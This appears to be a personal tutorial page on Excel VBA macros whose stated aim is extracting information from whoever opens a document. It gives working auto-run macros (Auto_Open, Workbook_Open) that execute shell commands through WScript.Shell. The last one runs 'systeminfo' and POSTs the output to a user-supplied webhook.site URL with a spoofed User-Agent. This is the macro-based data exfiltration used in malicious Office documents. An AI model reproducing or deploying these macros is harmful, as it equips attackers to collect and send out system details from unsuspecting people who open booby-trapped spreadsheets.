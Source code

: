 # Excel and Macros

### Introduction

Macros on Excel allow a user to run Visual Basic Code in the background of a document. This section of my website will be dedicated to playing around with macros, and finding ways to extract information from the client.

### Setup

In order to create a Excel file that we are able to create macros, we will have create a file with an extension of ".xlsm". This version of Excel has macros enabled, and will allow us to make and edit macros on it. This file version should be standard in Excel, so in order to do this, you just have to create a file and save it in the ".xlsm" format. Under the View tab, you will see Macros, and from there you can edit the macros.

### Popup Message

We can create a popup message that will appear when somebody enables the macros when they first open the document.

```cpp
'Code gotten from https://analysistabs.com/excel-vba/run-macro-automatically-opening-workbook/'
Sub Auto_Open()

    Msgbox "Popup Message Here"

End Sub
```

### Print Desktop Name

We can use the Visual Basic code to display the name of the Desktop to the screen when macros are enabled.

```csharp
'Source: https://www.youtube.com/watch?v=e2icQFxhp3w'
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("whoami")
    MsgBox (Excel_Shell_Exec.StdOut.ReadAll)
End Sub
```

We have to copy this code under Microsoft Excel Objects in order to get it to work.

![On the right top we can see where the code will be edited](../.gitbook/assets/screenshot-2021-03-06-150627.png)

After this you can save and exit the Excel file. When you open it again, there should be a popup with the Desktop name.

### System Information Exfiltration

This code is meant for Windows systems \(tested on Windows 10\), and sends the output of the "systeminfo" command on Windows to an external website, where you can read it by entering your own webhook link. The client will notice the Command Prompt pop up for this code.

```csharp
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("systeminfo")
    'Source: https://stackoverflow.com/questions/158633/how-can-i-send-an-http-post-request-to-a-server-from-excel-using-vba'
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "your https://webhook.site link"
    objHTTP.Open "POST", Url, False
    objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    objHTTP.send ("Systeminfo: " + Excel_Shell_Exec.StdOut.ReadAll)
End Sub

```



